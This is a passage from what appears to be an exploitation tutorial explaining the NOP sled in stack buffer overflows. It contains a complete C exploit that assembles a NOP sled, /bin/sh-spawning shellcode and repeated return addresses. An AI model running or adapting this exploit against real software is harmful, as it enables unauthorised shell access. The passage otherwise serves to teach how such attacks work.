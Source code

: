 The term slide is used here because a NOP instruction literally does nothing, so the processor will **fetc and decodeh the opcode and then increment the `EIP`** to execute the next instruction.

This is how our exploit looks like when we add the NOP Sled :

```c
#define NOP '\x90'
#define BUFF_SIZE 180
#include <stdio.h>

unsigned char sc[] = 
        "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3"
        ;

unsigned int get_sp() {
    __asm__("movl %esp, %eax");
}

void main(int argc, char** argv) {
    unsigned int sp = get_sp();
    unsigned char buff[BUFF_SIZE] = {0};
    unsigned int *p_buff = (unsigned int*) buff;
    unsigned char *p_cbuff;

    // Offset the stack pointer address with a user-supplied value
    if (argc > 1)
        sp = (unsigned int) (sp - (unsigned int) atoi(argv[1]));

    // Fill the whole array with the stack pointer value
    for(int i = 0; i < BUFF_SIZE; i+=4) {
        *(p_buff++) = (unsigned int) sp;
    }

    // Set a new pointer to the beginning of the array
    p_cbuff = (unsigned int*) buff;

    // Fill half the array with NOPs
    for(int i = 0; i < (sizeof(buff)/2); i++) {
        p_cbuff[i] = NOP;
    }

    // Set a new pointer to (<array length / 2> - <length of shellcode>)
    p_cbuff = (unsigned char *)(buff + (sizeof(buff)/2) - strlen(sc));

    // Put our shellcode in the array
    for(int i = 0; i < (sizeof(sc) - 1); i++) {
        *(p_cbuff++) = sc[i];
    }

    // Print the array to stdout
    // The array has the form : "NOP Sled, shellcode, addr, addr ... "
    puts(buff);
}
```
